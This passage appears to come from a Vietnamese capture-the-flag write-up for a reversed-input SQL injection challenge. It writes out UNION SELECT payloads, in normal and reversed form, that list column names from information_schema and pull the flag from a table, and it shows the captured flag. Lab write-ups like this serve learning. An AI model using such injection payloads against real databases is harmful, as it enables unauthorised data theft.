 ![](./img_WU/9.png)

- Bước tiếp theo tôi sẽ đi tìm tên cột trong bảng flag:

```
' UNION SELECT table_name, column_name, 1 FROM information_schema.columns-- -
Reverse:
- --snmuloc.amehcs_noitamrofni MORF 1 ,eman_nmuloc ,eman_elbat TCELES NOINU '
```

- Chúng ta thu được các trường hợp tên cột là `flag`

- Tiếp theo chung ta sẽ đi tìm flag như sau:

```
' UNION SELECT 1,flag,1 FROM flag-- -
Reverse:
- --galf MORF 1,galf,1 TCELES NOINU '
```

![](./img_WU/10.png)

- Vậy flag: `ATTT{4_51mpl3_r3v_5ql}`
